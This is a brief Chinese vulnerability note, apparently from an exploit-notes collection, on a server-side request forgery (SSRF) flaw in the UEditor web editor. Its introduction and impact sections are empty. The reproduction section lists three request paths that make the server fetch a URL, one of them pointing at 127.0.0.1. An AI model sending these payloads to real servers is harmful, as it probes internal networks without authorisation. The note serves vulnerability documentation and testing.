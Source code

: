 ```yaml
---
title: "ueditor ssrf"
id: zhfly3206
---
```


# ueditor ssrf

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

存在漏洞路径：

```
/ueditor/jsp/getRemoteImage.jsp?upfile=http://127.0.0.1/favicon.ico?.jpg

/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif

/ueditor/php/controller.php?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif `存在就会抓取成功、也可以抓取外网的测试` 
```